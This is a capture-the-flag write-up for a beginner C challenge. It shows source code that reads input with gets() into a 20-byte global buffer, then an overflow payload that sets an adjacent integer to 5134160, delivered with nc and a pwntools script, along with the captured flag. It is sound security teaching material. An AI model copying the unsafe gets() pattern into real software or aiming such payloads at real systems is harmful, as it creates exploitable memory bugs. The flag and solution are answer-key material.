 
# Challenge description
![](image.png)

This challenge is pretty straightforward. From the title and description, it seems obvious that we need to overwrite a variable with a buffer overflow attack.

The challenge provides a download link to a zip-file, which consists of a source code written in C.

# The source code

```c
#include <stdio.h>
#include <stdlib.h>

char buff[20];
int buff2;

void setup(){
	setvbuf(stdin, buff, _IONBF, 0);
	setvbuf(stdout, buff, _IONBF, 0);
	setvbuf(stderr, buff, _IONBF, 0);
}

void flag_handler(){
	FILE *f = fopen("flag.txt","r");
  	if (f == NULL) {
    	printf("Cannot find flag.txt!");
    	exit(0);
  }
}

void buffer(){
	buff2 = 0;
	printf("Can you get the exact value to print the flag?\n");
	printf("Input: ");
	fflush(stdout);
	gets(buff); 
	if (buff2 > 5134160) {
		printf("Too high!\n\n");
	} else if (buff2 == 5134160){
		printf("Congrats, You got the right value!\n");
	 	system("cat flag.txt");
	} else {
		printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");
	}
	printf("\nOutput : %s, Value : %d \n", buff, buff2);
}

int main(){
	flag_handler();
	setup();
	buffer();
}
```

The input we provide is saved in "buff", but afterwards, the variable "buff2" needs to hold a certain value so we can get the flag. So it's our goal to overwrite the variable "buff2" while only writing into "buff". Here, we can use a buffer overflow in the gets() function.
# The solution

After compiling the source code with gcc, we can explore it locally.
### the gets() function
The gets() function is considered an unsafe function since you can overflow it and it shouldn't be used! When compiling with gcc, it even prints a warning:
```bash
└─$ gcc chall.c         
chall.c: In function ‘buffer’:
chall.c:26:9: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   26 |         gets(buff);
      |         ^~~~
      |         fgets
/usr/bin/ld: /tmp/ccD8QHO7.o: in function `buffer':
chall.c:(.text+0x104): warning: the `gets' function is dangerous and should not be used.
```
It does compile though, so we can explore it further.

### the executable
After creating some random flag.txt file locally, I was able to run the program:
```bash
└─$ ./a.out      
Can you get the exact value to print the flag?
Input: f
Sad, too low! :(, maybe you can add *more* value 0_0


Output : f, Value : 0 
```
It takes an input, stores it in the buffer "buff" and compares the variable "buff2" to the decimal 5134160. If buff2 is set to this number, we get the flag. Otherwise, it will print if buff2 is too low or too high. After "Output : ", it prints the current value of buff, after "Value : ", it prints the current value of buff2.

### how to change the value of buff2
buff and buff2 are global variables and are declared right next to each other in memory. 
You can check that this is indeed the case by printing their addresses:
```bash
└─$ readelf -s a.out | grep buff                            
    28: 000000000000125d   215 FUNC    GLOBAL DEFAULT   15 buffer
    30: 0000000000004090    20 OBJECT  GLOBAL DEFAULT   26 buff
    41: 00000000000040a4     4 OBJECT  GLOBAL DEFAULT   26 buff2
```

So, "buff" is a character array that can hold 20 characters. Right after "buff" ends in memory, "buff2" starts. Since the gets() functions will allow a buffer overflow attack, if we send more than 20 characters, the overflow will overwrite "buff2".

To test this, we can send 20 A's (to fill up "buff") and then some value to see if it's working (here, I'm just sending a 1 in hex)
```bash
└─$ python2 -c "print 'A'*20+'\x01'" | ./a.out
Can you get the exact value to print the flag?
Input: Sad, too low! :(, maybe you can add *more* value 0_0


Output : AAAAAAAAAAAAAAAAAAAA, Value : 1
```

### how to set buff2 to 5134160
Variables are stored as hex values in little endian format. So if we are manipulating memory directly, we should send our payload in the same manner.

First, we will convert the decimal number 5134160 into the hex number 0x4E5750. In little endian, this will be 0x50 0x57 0x4E, since we start with the least significant byte.

This leaves us with the following payload and we get the flag:
```bash
└─$ python2 -c "print 'A'*20+'\x50\x57\x4e'" | nc ctf.tcp1p.com 17027
Can you get the exact value to print the flag?
Input: Congrats, You got the right value!
TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}
Output : AAAAAAAAAAAAAAAAAAAAPWN, Value : 5134160 
```

# The solve script
Another way to deliver the payload is by using a python script:
```python
import pwn

p = pwn.remote("ctf.tcp1p.com", 17027)

p.sendline(b"a"*20 + b'\x50\x57\x4e')
p.interactive()
```

```bash
└─$ python solve.py                                          
[+] Opening connection to ctf.tcp1p.com on port 17027: Done
[*] Switching to interactive mode
Can you get the exact value to print the flag?
Input: Congrats, You got the right value!
TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}
Output : aaaaaaaaaaaaaaaaaaaaPWN, Value : 5134160 
```
